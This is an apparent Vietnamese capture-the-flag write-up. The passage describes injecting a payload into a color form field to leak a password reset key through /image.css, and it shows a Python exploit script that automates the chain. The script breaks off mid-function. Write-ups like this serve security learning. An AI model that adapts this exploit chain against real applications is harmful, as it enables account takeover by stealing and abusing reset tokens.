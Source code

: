 Chúng ta đã inject thành công sau đó truy cập /image.css để get reset_key đã reset <br>
<img width="413" height="139" alt="image" src="https://github.com/user-attachments/assets/4e30b836-a564-4f6c-8a95-60bc8c21c96e" /> <br>
Đã leak được thành công. <br>
## Khai thác
Để quá trình tự động hóa tôi đã viết 1 script khai thác: <br>
```py
import requests
import re

class Exploit:
    def __init__(self, baseURL, newPassword, payload, timeout):
        self.baseURL = baseURL.rstrip("/")
        self.newPassword = newPassword
        self.payload = payload
        self.timeout = timeout

    def trigger_reset_mail(self):
        print(f"[+] Reset Mail Write Secret Key")
        response = requests.post(f"{self.baseURL}/reset_mail", timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Trigger Successfully: ", response.text, "\n")
            return True
        else:
            print(f"[-] Trigger Failed: ", response.text)
            return False

    def leak_secret_key(self):
        print(f"[+] Leak Secret Key From Color")
        data = {
            "bgColor[]": self.payload, 
            "fontColor": "#000000"
        }
        response = requests.post(f"{self.baseURL}/color", data=data, timeout=self.timeout)
        if "ColorPicker Done" in response.text:
            print(f"[+] Trigger Shell Successfully")
            return True
        else:
            print(f"[-] Trigger Shell Failed")
            return False

    def fetch_image(self):
        print(f"[+] Get Secret Key")
        url = f"{self.baseURL}/image.css"
        response = requests.get(url=url, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Leak Secret Key Success: ", response.text, "\n")
            return response.text 
        else:
            print(f"[-] Leak Secret Key Failed: ", response.text, "\n")
            return None

    def pass_reset_key(self, text_css):
        secret = re.search(r'([0-9a-f]{32})', text_css)
        if secret:
            return secret.group(1)
        else:
            return None

    def pass_reset(self, secret_key):
        url = f"{self.baseURL}/pass_reset"
        data = {
            "password": self.newPassword,
```